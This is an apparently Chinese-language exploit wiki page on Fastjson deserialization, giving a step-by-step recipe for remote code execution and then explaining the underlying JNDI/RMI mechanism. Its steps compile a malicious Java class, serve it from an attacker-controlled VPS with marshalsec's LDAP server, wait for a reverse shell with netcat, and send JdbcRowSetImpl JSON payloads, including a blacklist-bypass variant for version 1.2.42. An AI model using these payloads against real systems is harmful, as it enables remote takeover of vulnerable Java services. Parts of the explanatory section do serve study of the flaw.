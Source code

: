 # FastJson反序列化漏洞利用

## 利用条件：

- 基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
- 基于rmi的利用方式，适用jdk版本：JDK 6u132，JDK 7u131，JDK 8u121之前。
- （实战首选ldap，支持的jdk版本较多）
- Fastjson < 1.2.25
- 1.2.24< Fastjson <1.2.48 版本后增加了反序列化白名单，可以利用特殊构造的json字符串绕过白名单检测

## 利用方法：

### 步骤一：测试是否可能存在fastjson反序列化漏洞

使用json格式参数的POST请求，查看请求是否报错和返回结果。

### 步骤二：准备要执行的 Java 恶意代码

修改恶意类代码 [JNDIObject.java](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/file/JNDIObject.java) 并编译生成恶意类 JNDIObject.class

```bash
javac JNDIObject.java
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/image/javaCode.jpg)
> ⚠️port为nc监听端口

### 步骤三：搭建http服务传输恶意文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）
```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
并将生成的 `JNDIObject.class` 文件拷贝到 该服务的根目录。

### 步骤四：架设恶意类的 ldap 服务

下载 [marshalsec](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/file/marshalsec-0.0.3-SNAPSHOT-all.jar) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

> ⚠️恶意类的ldap服务监听端口和poc中访问的接口一致

### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

### 步骤六：修改请求包数据，发送poc

```bash
{
	"b":{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://your-vps-ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```
> ⚠️poc中访问的接口和恶意类的ldap服务监听端口一致

### 1.2.42版本绕过
fastjson在1.2.42版本新增了校验机制。如果输入类名的开头和结尾是L和;就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层L和;。
原类名：```com.sun.rowset.JdbcRowSetImpl```
绕过：```LLcom.sun.rowset.JdbcRowSetImpl;;```
EXP：
```bash
{           
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://x.x.x.x:1389/JNDIObject",
	"autoCommit":true
}
```
> autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

## 漏洞原理：

1. 首先开启HTTP服务器，并将我们的恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标（JNDI_Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码

## 漏洞分析：
### JNDI
JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。

JNDi是应用程序设计的Api，JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：
```bash
DNS、LDAP、CORBA对象服务、RMI
```
### 利用JNDI References进行注入
对于这个知识点，我们需要先了解RMI的作用。

首先RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。

服务端
```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
	public static void main(String args[]) throws Exception {
		Registry registry = LocateRegistry.createRegistry(1099);
		// Reference需要传入三个参数(className,factory,factoryLocation)
		// 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
		Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
		// ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
		ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
		registry.bind("refObj", refObjWrapper);
	}
}
```

客户端
```bash
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
	public static void main(String[] args) throws Exception{
		try {
			Context ctx = new InitialContext();
			ctx.lookup("rmi://localhost:8000/refObj");
		}catch (NamingException e) {
			e.printStackTrace();
		}
	}
}
```
如果我们可以控制JNDI客户端中传入的url，就可以起一个恶意的RMI，让JNDI来加载我们的恶意类从而进行命令执行。

我们来看一下References，References类有两个属性，className和codebase url，className就是远程引用的类名，codebase决定了我们远程类的位置，当本地classpath中没有找到对应的类的时候，就会去请求codebase地址下的类（codebase支持http协议），此时如果我们将codebase地址下的类换成我们的恶意类，就能让客户端执行。

ps：在java版本大于1.8u191之后版本存在trustCodebaseURL的限制，只能信任已有的codebase地址，不再能够从指定codebase中下载字节码。


## 漏洞总结：

1. 反序列化常用的两种利用方式，一种是基于rmi，一种是基于ldap。
2. RMI是一种行为，指的是Java远程方法调用。
3. JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象，并把它下载到客户端中来。
4. ldap指轻量级目录服务协议。
